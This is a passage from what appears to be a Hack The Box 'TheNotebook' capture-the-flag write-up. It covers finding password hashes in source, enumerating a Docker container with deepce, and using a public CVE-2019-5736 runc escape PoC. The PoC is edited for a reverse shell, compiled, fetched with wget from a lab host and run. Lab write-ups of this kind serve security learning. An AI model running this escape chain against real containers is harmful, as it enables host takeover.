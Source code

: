 
Checking the content of these files, in `create_db.py` noticed two password hashes for users `noah` and `admin`, which I decided to search on the internet first if they have already been cracked.

```python
 users = [
        User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
        User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")
    ]
```

As haven't found anything in public sites (Crackstation, for example) this means that these passwords are not present in known wordlists like `rockyou.txt`, frequently used in CTFs. Decided to go further enumerating for other vulnerabilities in docker, specifically *docker breakout*, allowing us to escape to the host.

Searching for some information, found the repo [stealthcopter/deepce: Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE) (github.com)](https://github.com/stealthcopter/deepce) where there's a script that can help us enumerate the container characteristics known to be helpful in this kind of situation.

Executing it in the container, noticed that we could have a chance on doing it as there were capabilities (in red) that could allow us to read and write files in the host, but using the options in the tool didn't allow me to achieve the expected outcome.

![HTB TheNotebook - deepce output](https://i.imgur.com/0L7480D.png){: .align-center}

As I haven't found anything in the files, decided to search for specific vulnerabilities that could abuse capabilities like the ones we have found, where I found about CVE-2019-5736 while browsing for docker vulns in [CVE Details](https://www.cvedetails.com/). This vuln represents exactly the type of abuse we need based on our situation and, due to its high CVSS score (9.3) probably there is a ready exploit to be used.

![CVE Details - CVE-2019-5736](https://i.imgur.com/CqvPKK3.png){: .align-center}

Searching for exploits I came across the repo [Frichetten/CVE-2019-5736-PoC: PoC for CVE-2019-5736 (github.com)](https://github.com/Frichetten/CVE-2019-5736-PoC) which had a PoC written in Golang that supposedly would attend to our scenario, while other PoCs found required us to be able to run other containers (`docker run`) in the host, not covered by our sudo privileges.

To obtain the root shell, the following steps were executed, as also seen in this blog post ([Reproduction of docker escape vulnerability (CVE-2019-5736) - Programmer Sought](https://www.programmersought.com/article/71804432772/))

- Downloaded and edited the script `escape.go` to give us a reverse shell.

- Compiled it using the parameters below

```bash
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build escape.go
```

- Copied the exploit to the victim machine, inside the container, followed by its execution

```bash
wget http://10.10.10.10/escape
chmod +x escape
./escape
```
